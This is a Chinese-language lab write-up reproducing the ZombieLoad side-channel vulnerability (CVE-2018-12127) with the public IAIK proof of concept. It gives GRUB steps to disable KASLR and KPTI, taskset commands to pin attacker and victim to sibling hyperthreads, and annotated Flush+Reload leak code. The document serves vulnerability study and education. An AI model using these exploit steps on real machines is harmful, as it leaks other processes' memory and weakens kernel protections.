 ```yaml
---
typora-root-url: assets
---
```


# CVE-2018-12127

## 简介

CVE-2018-12127是微架构填充缓冲区数据采样 (MFBDS)漏洞，属于侧信道漏洞。由于多核之间cache数据共享，而cache命中和失效对应响应时间有差别，攻击者可以通过访问时间的差异，推测cache中的信息，从而获得隐私数据。

详情可参见：https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12127


## 环境

环境：VMware Workstation 15.5.5 with KaliLinux 2020.1

Linux kali 5.4.0-kali3-amd64 #1 SMP Debian 5.4.13-1kali1 (2020-01-20) x86_64 GNU/Linux

CPU：I7-8550U

## 准备

经过在互联网上查找资料，找到一个Github项目方便我们理解和复现漏洞，也有详细的教程：

https://github.com/IAIK/ZombieLoad

模拟的攻击过程：

* `secret`：一个可执行程序，作为`Victim`。功能是向内存中写入指定的英文字母
* `leak`：可执行程序，作为`Attacker`。功能是进行侧信道攻击窃取`secret`向内存写入的英文字母

我们采用了[方法1](https://github.com/IAIK/ZombieLoad#variant-1-linux-only)进行侧信道攻击向受害者程序`secret`窃取数据，以及采用了[运行在用户进程空间的受害者程序](https://github.com/IAIK/ZombieLoad#userspace-victim-linux-and-windows)，直接进入相应目录`make`一下备用。

[方法1](https://github.com/IAIK/ZombieLoad#variant-1-linux-only)进行侧信道攻击向受害者程序`secret`窃取数据,，需要关闭内核页表隔离(KPTI)和位址空间配置随机载入(KASLR)

![image-20200607210153675](assets/image-20200607210153675.png)

关闭方法如下：

* 修改`/etc/default/grub`文件
  在文件中找到`GRUB_CMDLINE_LINUX_DEFAULT`（Debian系）或`GRUB_CMDLINE_LINUX`（RHEL系），在选项后添加`nokaslr nopti`选项。
* 刷新GRUB配置文件
  执行`sudo update-grub`（Debian系）或`sudo grub2-mkconfig -o /boot/grub2/grub.cfg`（RHEL系），等待完成即可。
* Reboot后查询开启状态
  * 如KASLR已关闭，执行`sudo cat /proc/kallsyms | grep startup_64`之后，会提示地址为`ffffffff81000000`，说明关闭成功。
  * 如KPTI已关闭，执行`sudo dmesg | grep ‘page tables isolation’`，弹出信息含有disabled或无内容说明关闭成功。

## 复现

攻击要求受害者程序和攻击者程序必须运行在同个对应的物理内核当中，但是可以运行在物理内核里的不同[超线程(Hyperthread)](https://en.wikipedia.org/wiki/Hyper-threading)上面。

通过`lscpu -e`可以查看所有的逻辑处理器对应的物理内核，随便选一对作为本次复现所用的就好了

![image-20200607210915466](assets/image-20200607210915466.png)

通过`taskset -c coreid ./executable`可以令可执行程序运行在指定的逻辑处理器上

先运行`secret`，指定它运行在2号逻辑处理器里。默认情况下该程序是将字母`X`写入内存，我们这里指定了`A`

![image-20200607211921254](assets/image-20200607211921254.png)

然后运行`leak`，指定它运行在3号逻辑处理器里，因为逻辑处理器2和3都对应1这个物理内核，所以在相同的物理内核里，`leak`程序就可以窃取到`secret`程序向内存写入的数据，如下的直方图展示了侧信道攻击目前的进行状况，可以把括号内的数字或者`#`的长度理解为“可能性相对值”。数字最大的，代表着窃取到的可能性最大的数据。

![image-20200607212057035](assets/image-20200607212057035.png)

运行一段时间可以看见字母`A`对应的数值一直维持最高，而我们在`secret`中也指定了向内存中写入`A`，如此一来，就验证了漏洞，并复现成功。

## 代码分析

此处攻击代码采用的是`Flush-Reload`方法进行：

Flush-Reload（FR）方法是prime-probe方法的变种，基于共享内存实现，是一种跨内核、跨虚拟机的Cache 探测方法。在Flush 阶段，攻击者将监控的内存块从cache中驱逐出去，然后在Trigger阶段等待目标用户访问共享内存。在Reload阶段，攻击者重新加载监控的共享内存块。如果在等待的期间，目标虚拟机访问过的内存块不需要重新加载，时间将会较短，因为这些数据已经被缓存在cache中。根据加载时间长短，可判定目标虚拟机访问过的数据。

代码具体步骤如下：

1. 计算cache miss时间：

```c
CACHE_MISS = detect_flush_reload_threshold();
fprintf(stderr, "[+] Flush+Reload Threshold: %zu\n", CACHE_MISS);
```

```c
size_t detect_flush_reload_threshold() {
  size_t reload_time = 0, flush_reload_time = 0, i, count = 1000000;
  size_t dummy[16];
  size_t *ptr = dummy + 8;

  maccess(ptr);
  for (i = 0; i < count; i++) {
    reload_time += reload_t(ptr);
  }
  for (i = 0; i < count; i++) {
    flush_reload_time += flush_reload_t(ptr);
  }
  reload_time /= count;
  flush_reload_time /= count;

  return (flush_reload_time + reload_time * 2) / 3;
}
```


2. Flush：将共享内存中特定位置映射的cache数据驱逐

```c
void flush(void *p) { asm volatile("clflush 0(%0)\n" : : "c"(p) : "rax"); }

flush(mapping);
```

3. Trigger：等待目标虚拟机响应服务请求，更新Cache

在受害者程序中：

```c
 // load value all the time
  while(1) {
    for(int i = 0; i < 100; i++) maccess(secret + i * 64);
  }
```

3. Reload：重新加载Flush阶段驱逐的内存块，测量并记录cache组的重载时间


```c
void recover(void) {
  // Recover value from cache and update histogram
  int update = 0;
  for (size_t i = FROM; i <= TO; i++) {
    if (flush_reload((char *)mem + 4096 * i)) {
      hist[i]++;
      update = 1;
    }
  }

  // If new hit, display histogram
  if (update) {
    printf("\x1b[2J");
    int max = 1;
    for (int i = FROM; i <= TO; i++) {
      if (hist[i] > max) {
        max = hist[i];
      }
    }
    for (int i = FROM; i <= TO; i++) {
      printf("%c: (%4d) ", i, hist[i]);
      for (int j = 0; j < hist[i] * 60 / max; j++) {
        printf("#");
      }
      printf("\n");
    }
    fflush(stdout);
  }
}

```
